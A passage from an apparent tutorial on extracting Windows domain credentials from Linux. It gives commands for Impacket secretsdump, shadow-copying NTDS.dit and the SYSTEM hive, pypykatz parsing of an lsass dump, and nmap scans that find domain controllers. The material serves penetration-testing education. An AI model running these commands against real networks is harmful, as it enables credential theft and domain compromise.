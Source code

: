 #### 2. Using Mimikatz-compatible features in Linux tools

```bash
# Secretsdump from Impacket
impacket-secretsdump -ntds /path/to/ntds.dit -system /path/to/SYSTEM -hashes lmhash:nthash LOCAL
```

### Cross-platform Techniques

Mimikatz functionality can be leveraged in Linux through several methods:

#### 1. Remote extraction using Impacket

```bash
# Extract credentials directly from a remote domain controller
impacket-secretsdump domain.local/administrator@10.0.0.10 -just-dc
```

#### 2. NTDS.dit extraction and processing

```bash
# First, create a shadow copy on the Windows system
vssadmin create shadow /for=C:

# Copy NTDS.dit and SYSTEM registry hive
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\
reg save HKLM\SYSTEM C:\temp\SYSTEM

# Transfer these files to your Linux system
# Then extract credentials
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

#### 3. In-memory credential extraction from Linux

```bash
# Using Pypykatz (Python implementation of Mimikatz)
pip install pypykatz
pypykatz lsa minidump lsass.dmp
```

### Example: Extracting Windows Credentials from Linux

This example demonstrates a complete workflow for extracting Windows domain credentials from a Linux system with network access to Windows machines:

1. **Identify domain controllers and potential targets**:

```bash
# Scan the network for Windows systems
nmap -p 445 --script smb-os-discovery 10.0.0.0/24

# Identify domain controllers
nmap -p 389 --script ldap-rootdse 10.0.0.0/24
```
